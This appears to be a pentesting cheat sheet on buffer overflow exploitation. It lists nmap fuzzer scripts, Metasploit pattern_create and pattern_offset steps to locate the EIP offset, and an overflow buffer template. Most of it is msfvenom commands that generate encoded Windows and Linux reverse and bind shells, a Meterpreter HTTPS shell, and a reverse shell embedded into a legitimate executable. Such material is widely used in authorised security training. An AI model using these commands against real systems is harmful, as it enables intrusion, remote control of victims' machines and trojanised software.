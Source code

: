 #DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

#NMap Fuzzer List
https://nmap.org/nsedoc/categories/fuzzer.html

#NMap HTTP Form Fuzzer
nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

#Nmap DNS Fuzzer
nmap --script dns-fuzz --script-args timelimit=2h $ip -d


# Pattern Create and Locate

locate pattern_create
pattern_create.rb -l 2700

locate pattern_offset
pattern_offset.rb -q 39694438

# Verify exact location of EIP - [*] Exact match at offset 2606
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90


# MSFVenom Payloads
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

# Create a PE reverse shell and embed it into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

# Create a PE Reverse HTTPS shell
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

# Linux Bind Shell on PORT 4444 ( connect with nc -v $ip 4444 )
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

